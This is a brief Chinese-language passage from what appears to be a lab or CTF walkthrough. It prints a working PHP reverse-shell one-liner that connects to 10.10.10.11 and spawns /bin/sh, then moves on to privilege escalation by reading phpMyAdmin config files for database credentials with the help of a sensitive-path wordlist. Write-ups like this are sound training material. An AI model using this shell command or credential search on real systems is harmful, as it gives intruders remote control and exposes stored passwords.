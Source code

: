 ### 反弹shell

j进行url编码

```php
php -r '$sock=fsockopen("10.10.10.11",1111);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image-20240310184326092](imgs/image-20240310184326092.png)

![image-20240310184356772](imgs/image-20240310184356772.png)

### 权限提升

#### phpmyadmin配置文件

在面前发现有`phpmy`目录，里面肯定是有数据库的用户名和密码的配置文件的

github中`Auto_Wordlists`这个仓库里有一些敏感配置路径

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt
